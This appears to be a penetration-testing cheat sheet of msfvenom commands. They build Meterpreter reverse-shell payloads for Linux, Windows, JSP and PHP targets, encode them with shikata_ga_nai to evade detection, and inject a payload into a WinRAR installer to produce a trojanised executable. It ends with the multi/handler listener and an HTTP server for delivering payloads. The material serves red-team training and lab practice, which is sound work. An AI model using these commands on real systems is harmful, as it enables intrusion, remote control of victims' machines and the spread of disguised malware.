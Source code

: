 ```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<LOCAL_HOST_IP> LPORT=<LOCAL_PORT> -f elf > <PAYLOAD_FILE_x86>

# Linux 64bit
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=<LOCAL_HOST_IP> LPORT=<LOCAL_PORT> -f elf > <PAYLOAD_FILE_x64>

# Win 32bit + shikata_ga_nai encoded
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<LOCAL_HOST_IP> LPORT=<LOCAL_PORT> -e x86/shikata_ga_nai -f exe > <PAYLOAD_ENCODED_x86>.exe

# Use more encoding iterations
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<LOCAL_HOST_IP> LPORT=<LOCAL_PORT> -i 10 -e x86/shikata_ga_nai -f exe > <PAYLOAD_ENCODED_x86>.exe

# Linux 32bit + shikata_ga_nai encoded
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<LOCAL_HOST_IP> LPORT=<LOCAL_PORT> -i 10 -e x86/shikata_ga_nai -f elf > <PAYLOAD_ENCODED_x86>

# Inject into Portable Executables
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<LOCAL_HOST_IP> LPORT=<LOCAL_PORT> -e x86/shikata_ga_nai -i 10 -f exe -x winrar-x32-621.exe > winrar.exe

# JSP Java Meterpreter Reverse TCP
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.jsp #TomCat content management system 

# PHP
msfvenom -p php/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.php\                   #PHP Web Application
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
```

**MSF Staged and Non Staged Payload**

```bash
# MSF STAGED Payload
windows/x64/meterpreter/reverse_tcp

# MSF NON-STAGED Payload
windows/x64/meterpreter_reverse_https
```

```bash
# Upload the payload on the target and try it with MSFconsole
cd Payloads
sudo python -m http.server 8080
msfconsole -q

use multi/handler
set payload <MSFVENOM_PAYLOAD>
set LHOST <MSFVENOM_LOCAL_HOST_IP>
set LPORT <MSFVENOM_LOCAL_PORT>
run
```
